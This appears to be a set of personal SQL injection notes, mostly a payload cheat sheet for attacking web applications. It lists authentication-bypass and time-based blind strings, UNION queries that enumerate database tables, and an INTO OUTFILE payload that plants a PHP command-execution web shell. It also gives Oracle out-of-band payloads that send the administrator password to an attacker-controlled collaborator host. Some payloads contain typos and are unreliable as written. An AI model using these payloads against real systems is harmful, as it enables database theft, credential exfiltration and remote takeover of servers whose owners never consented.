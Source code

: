 # SQLI METHOD
1. Find entry Points e.g. params cookies etc
2. Find valid and invalid values
3. Attempt to break with ' or "
4. If response changes repair the SQL querry
5. If repair diff from broken querry may have SQLI 

## How to Repair

<ul>
  <li>' >> ' '</li>
  <li>' >> '||'</li>
  <li>' >> '+' or '%2b'</li>
  <li>' >>' AND '1'='1</li>
  <li>' >> ' -- -</li>
</ul>

Repairs for Int
'(quote) will break >>Syntax even if Repaired just try to start with a Space
<ul>
  <li>-- -</li>
  <li> AND 1=1 </li>
  <li>AND 1=1 -- -</li>
</ul>

## INJECTS
```
'+OR+1=1--

=1' OR '1'='1
 
=1' OR '1'='1'--+

=1'+UNION+SLECT+1,2,3,4,5+FROM+TABLE    ?!?!?

'XOR(if(now()=sysdate(),sleep(5*5),0))OR'

value' INTO OUTFILE '/var/www/html/shelll.php' LINES TERMINATED BY 'union select 1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E') INTO OUTFILE '/var/www/html/shell1.php' from webapp.queue-- -

 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
 union select "1 order by 1-- -",2,3 from information_schema.tables where table_schema=database()
```
## OutOfBound injection
###Oracle
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
```